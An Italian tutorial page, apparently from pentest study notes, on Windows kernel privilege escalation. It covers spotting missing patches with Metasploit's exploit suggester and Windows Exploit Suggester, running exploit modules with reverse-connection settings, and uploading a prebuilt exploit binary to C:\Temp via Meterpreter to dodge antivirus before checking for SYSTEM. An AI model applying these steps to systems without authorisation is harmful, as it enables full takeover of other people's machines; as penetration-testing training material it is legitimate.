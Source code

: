 
# Windows Kernel Exploit

Il kernel è il cuore del sistema operativo. In un sistema Windows, il kernel prende il nome di **Windows NT** e gestisce l’accesso diretto alle risorse di sistema e all’hardware. Funziona come un intermediario tra il software e le componenti fisiche, consentendo ai programmi di interagire in modo sicuro con la memoria, il processore, i dispositivi, ecc.

Windows distingue due modalità operative:

- **User Mode**: modalità con accesso limitato alle risorse. Le applicazioni comuni vengono eseguite qui, in uno spazio isolato per motivi di sicurezza.
- **Kernel Mode**: modalità privilegiata, con accesso illimitato alle risorse. Qui operano i driver, il gestore della memoria, il file system e tutte le funzioni di basso livello.

L’obiettivo di un **Windows Kernel Exploit** è sfruttare una vulnerabilità nella modalità kernel per passare da un utente con privilegi limitati a uno con privilegi **SYSTEM**, ottenendo così il controllo totale sul sistema.

 Attenzione: interagire direttamente con il kernel è pericoloso. Un errore può causare crash di sistema, perdita di dati o BSOD. 

## Fasi di exploit

### 1. Rilevamento delle vulnerabilità

Ogni sistema Windows può presentare vulnerabilità diverse, in base alla versione del sistema operativo, al livello di patch applicate e alle configurazioni installate.

Per identificare queste vulnerabilità, possiamo usare:

- `post/multi/recon/local_exploit_suggester` di Metasploit
- `Windows Exploit Suggester` (WES) scaricabile da <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester">GitHub</a>

WES è uno script Python che confronta le informazioni raccolte con `systeminfo` sul target con un database di bollettini Microsoft, identificando patch mancanti ed eventuali exploit associati. Può anche indicare se esistono:

- moduli Metasploit ([M])
- exploit pubblici ([E])
- vulnerabilità senza bollettino ufficiale ([*])

Il simbolo **[M]** indica che esiste un modulo già pronto su Metasploit.  
Il simbolo **[E]** fa riferimento a un exploit disponibile in forma di **proof-of-concept** (PoC), solitamente scaricabile da siti come Exploit-DB.  
Il simbolo **[*]** indica che manca un bollettino ufficiale (ad esempio, vulnerabilità zero-day note ma non ancora pubblicate da Microsoft).

Un’altra ottima risorsa è la repository <a href="https://github.com/SecWiki/windows-kernel-exploits">Windows Kernel Exploits</a>

Questa raccoglie centinaia di exploit per il kernel di Windows, organizzati per CVE. Ogni exploit è fornito con codice sorgente o binari compilati pronti all’uso.

### 2. Esecuzione via Metasploit

Dopo aver identificato un exploit tramite `local_exploit_suggester`, puoi eseguirlo direttamente in Metasploit:

`use <nome_modulo>` <br>
`set SESSION <numero_sessione>` <br>
`set LHOST <tuo_IP>` <br>
`set LPORT <porta>` <br>
`run` <br>

Per usare `local_exploit_suggester`:

1. Ottieni una sessione Meterpreter
2. Esegui `background` per metterla in pausa
3. Lancia:

`use post/multi/recon/local_exploit_suggester` <br>
`set SESSION <id_sessione>` <br>
`run` <br>

### 3. Esecuzione manuale

Puoi anche eseguire exploit manualmente. Ecco i passaggi:

1. Clona la repository:

`git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester` <br>
`cd Windows-Exploit-Suggester` <br>

2. Aggiorna il database:

`./windows-exploit-suggester.py --update`

3. Ottieni le informazioni del target:
- Vai su una shell del target e digita:

`systeminfo > systeminfo.txt`

4. Copia `systeminfo.txt` sulla tua macchina, poi esegui:

`./windows-exploit-suggester.py --database 2024-*.xls --systeminfo systeminfo.txt`


Ti verrà restituita una lista di vulnerabilità, ordinata per probabilità di successo.

Se decidi di usare un exploit da ExploitDB o dalla repo SecWiki:

- Trasferisci il binario sul target con Meterpreter:

`cd C:\` <br>
`ls` <br>
`cd Temp\` <br>
`upload ~/Downloads/exploit.exe` <br>
`shell` <br>
`exploit.exe` <br>

La cartella `Temp` viene usata per evitare di scrivere nella home dell’utente ed eludere possibili controlli o antivirus.

Una volta eseguito l’exploit, controlla i privilegi ottenuti:

`whoami`

Se la risposta è `NT AUTHORITY\SYSTEM`, l’elevazione è riuscita.

---
